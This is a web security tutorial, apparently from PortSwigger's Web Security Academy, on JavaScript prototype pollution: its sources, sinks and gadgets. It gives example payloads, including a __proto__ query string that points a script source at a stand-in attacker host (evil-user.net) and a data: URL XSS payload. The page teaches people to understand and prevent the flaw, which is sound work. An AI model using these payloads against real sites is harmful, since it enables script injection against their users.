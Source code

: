 # What is prototype pollution?

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

![Polluting a config object via prototype pollution](https://portswigger.net/web-security/prototype-pollution/images/prototype-pollution-infographic.svg)

Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities. In client-side JavaScript, this commonly leads to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based), while server-side prototype pollution can even result in remote code execution.

If you're unfamiliar with how prototypes and inheritance work in JavaScript, we recommend reading the following overview before continuing.

[JavaScript prototypes and inheritance](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance)

#### Labs

If you're already familiar with prototype pollution and just want to practice on a series of deliberately vulnerable sites, check out the link below for an overview of all labs in this topic.

- [LABS View all prototype pollution labs](https://portswigger.net/web-security/all-labs#prototype-pollution)

## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the [special meaning of `__proto__`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#accessing-an-object-s-prototype-using-proto) in a JavaScript context, the merge operation may assign the nested properties to the object's [prototype](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#what-is-a-prototype-in-javascript) instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

It's possible to pollute any prototype object, but this most commonly occurs with the [built-in global `Object.prototype`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#the-prototype-chain).

Successful exploitation of prototype pollution requires the following key components:

- [A prototype pollution source](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sources) - This is any input that enables you to poison prototype objects with arbitrary properties.
    
- [A sink](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sinks) - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    
- [An exploitable gadget](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-gadgets) - This is any property that is passed into a sink without proper filtering or sanitization.
    

## Prototype pollution sources

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:

- The [URL](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)
    
- [JSON-based input](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-json-input)
    
- Web messages
    

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.

You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:

`{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }`

However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:

`targetObject.__proto__.evilProperty = 'payload';`

During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit `evilProperty`, unless they already have a property of their own with a matching key.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:

`{ "__proto__": { "evilProperty": "payload" } }`

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:

```
const objectLiteral = {__proto__: {evilProperty: 'payload'}}; 
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); 

objectLiteral.hasOwnProperty('__proto__'); // false objectFromJson.hasOwnProperty('__proto__'); // true
```

If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the previous [URL-based example](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url).

## Prototype pollution sinks

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

- Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
    
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.
    

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:

```
let script = document.createElement('script'); 
script.src = `${transport_url}/example.js`; document.body.appendChild(script);
```

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an [XSS](https://portswigger.net/web-security/cross-site-scripting) payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.

### What next?

Now that you're familiar with the concepts behind prototype pollution, let's take a look at how you can find these vulnerabilities in real-world applications:

- [LABS Client-side prototype pollution vulnerabilities](https://portswigger.net/web-security/prototype-pollution/client-side)
- [LABS Server-side prototype pollution vulnerabilities](https://portswigger.net/web-security/prototype-pollution/server-side)
- [Preventing prototype pollution vulnerabilities](https://portswigger.net/web-security/prototype-pollution/preventing)
